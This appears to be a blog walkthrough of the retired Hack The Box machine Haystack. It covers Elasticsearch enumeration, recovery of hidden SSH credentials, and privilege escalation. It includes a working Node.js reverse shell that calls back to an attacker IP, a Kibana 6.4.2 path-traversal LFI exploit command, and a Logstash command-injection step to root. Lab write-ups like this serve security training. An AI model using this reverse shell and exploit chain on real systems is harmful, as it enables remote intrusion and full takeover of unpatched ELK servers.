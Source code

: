 ```yaml
---
layout: post
title: "Haystack: Hack The Box Walkthrough"
date: 2019-11-02 15:56:05 +0000
last_modified_at: 2019-11-02 15:56:05 +0000
category: Walkthrough
tags: ["Hack The Box", Haystack, retired]
comments: true
image:
  feature: haystack-htb-walkthrough.jpg
  credit: pixel2013 / Pixabay
  creditlink: https://pixabay.com/photos/needle-in-a-haystack-needle-haystack-1752846/
---
```


This post documents the complete walkthrough of Haystack, a retired vulnerable [VM][1] created by [JoyDragon][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Haystack is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.115 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-07-01 01:21:56 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.115                                    
Discovered open port 22/tcp on 10.10.10.115                                    
Discovered open port 9200/tcp on 10.10.10.115
```

Nothing unusual with the ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80,9200 -A --reason -oN nmap.txt 10.10.10.115
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    syn-ack ttl 63 nginx 1.12.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    syn-ack ttl 63 nginx 1.12.2
|_http-favicon: Unknown favicon MD5: 6177BFB75B498E0BB356223ED76FFE43
| http-methods:
|   Supported Methods: HEAD DELETE GET OPTIONS
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

Interesting. `80/tcp` and `9200/tcp` appear to be Nginx `http` services. This is what they look like in a browser.

_`80/tcp`_

<a class="image-popup">
![5a95d4ce.png](/assets/images/posts/haystack-htb-walkthrough/5a95d4ce.png)
</a>

Needle in a haystack indeed :laughing:

_`9200/tcp`_

<a class="image-popup">
![b5a9da1e.png](/assets/images/posts/haystack-htb-walkthrough/b5a9da1e.png)
</a>

Now, this is interesting. Elasticsearch is in the house.

### How to use Elasticsearch

Let's see how we can find the needle in the haystack.

#### Listing all the indices in the node

<a class="image-popup">
![f6e78db9.png](/assets/images/posts/haystack-htb-walkthrough/f6e78db9.png)
</a>

Notice the size of the indices? Keep that in mind because we are going to use it later.

#### Listing all the documents in an index

<a class="image-popup">
![5598a9a6.png](/assets/images/posts/haystack-htb-walkthrough/5598a9a6.png)
</a>

By default, Elasticsearch displays ten results. In order to include all the results, we need the `size` parameter. Let's switch to `curl` and download the two indices.

```
# curl -s "http://10.10.10.115:9200/bank/_search?q=*:*&size=1000" > bank
# curl -s "http://10.10.10.115:9200/quotes/_search?q=*:*&size=1000" > quotes
```

### Analysis of `needle.jpg`

OK, what's next? In order to search for the needle in the haystack, we need to know what are we looking for in the first place. To do that, we turn our attention to `needle.jpg`.

Check out the `strings` in the file.

<a class="image-popup">
![de11d407.png](/assets/images/posts/haystack-htb-walkthrough/698df47d.png)
</a>

This string is `base64`-decoded to ***la aguja en el pajar es "clave"***. Damn, what does it even mean? Google Translate to the rescue.

<a class="image-popup">
![71114c93.png](/assets/images/posts/haystack-htb-walkthrough/71114c93.png)
</a>

Duh? :fu:

Anyways, that line is cliché and it looks like it's straight out of a book of quotations. :wink: With that in mind, let's see what we can find in the `quotes` index.

<a class="image-popup">
![b916c77e.png](/assets/images/posts/haystack-htb-walkthrough/b916c77e.png)
</a>

There's more.

<a class="image-popup">
![1302bba6.png](/assets/images/posts/haystack-htb-walkthrough/1302bba6.png)
</a>

They are decoded to the following:

```
pass: spanish.is.key
user: security
```

This must the key to SSH login. What do you know, the file `user.txt` is at the home directory.

<a class="image-popup">
![c70e59ba.png](/assets/images/posts/haystack-htb-walkthrough/c70e59ba.png)
</a>

## Privilege Escalation

During enumeration of `security`'s account, I noticed Kibana 6.4.2 is installed. This version coincides with the version first seen at the `9200/tcp` page.

<a class="image-popup">
![7bc39698.png](/assets/images/posts/haystack-htb-walkthrough/7bc39698.png)
</a>

This version is susceptible to a Local File Inclusion (LFI) that can be exploited to gain remote access, according to this [discovery](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/).

It's not hard to exploit. First, create a reverse shell written in Node.js.

<div class="filename"><span>lame.js</span></div>

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.15.147", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

`scp` the file to a `tmpfs` mount, e.g. `/dev/shm`.

Launch the exploit with `curl` in the remote machine like so.

```
$ curl -s "http://127.0.0.1:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../dev/shm/lame.js"
```

You should get a reverse shell as `kibana`.

<a class="image-popup">
![326409da.png](/assets/images/posts/haystack-htb-walkthrough/326409da.png)
</a>

You must be thinking, "what good is a shell as `kibana`?". Well, check out the permissions that `kibana` has.

<a class="image-popup">
![e26584b7.png](/assets/images/posts/haystack-htb-walkthrough/e26584b7.png)
</a>

And, check out the contents of `/etc/logstash/conf.d`.

<a class="image-popup">
![b4d8661e.png](/assets/images/posts/haystack-htb-walkthrough/b4d8661e.png)
</a>

First of all, the machine is running an Elasticsearch, Logstash, and Kibana (ELK) stack. Secondly, the input, filter and output plugins are geared towards execution.

### Getting `root.txt`

In addition, Logstash is running as `root`. The creator is so kind! :roll_eyes:

<a class="image-popup">
![cd961a11.png](/assets/images/posts/haystack-htb-walkthrough/cd961a11.png)
</a>

Armed with that insight, here's how we are going to get our `root` shell.

1. Use `msfvenom` to create a reverse shell, name it `lame`
2. `scp` to `/dev/shm/lame`
2. `echo "Ejecutar comando: /dev/shm/lame" > /opt/kibana/logstash_lame`
2. Wait and profit...

<a class="image-popup">
![8e17b5f3.png](/assets/images/posts/haystack-htb-walkthrough/8e17b5f3.png)
</a>

There you have it. Getting `root.txt` is trivial with a `root` shell.

<a class="image-popup">
![e0a66a2b.png](/assets/images/posts/haystack-htb-walkthrough/e0a66a2b.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/195
[2]: https://www.hackthebox.eu/home/users/profile/32897
[3]: https://www.hackthebox.eu/
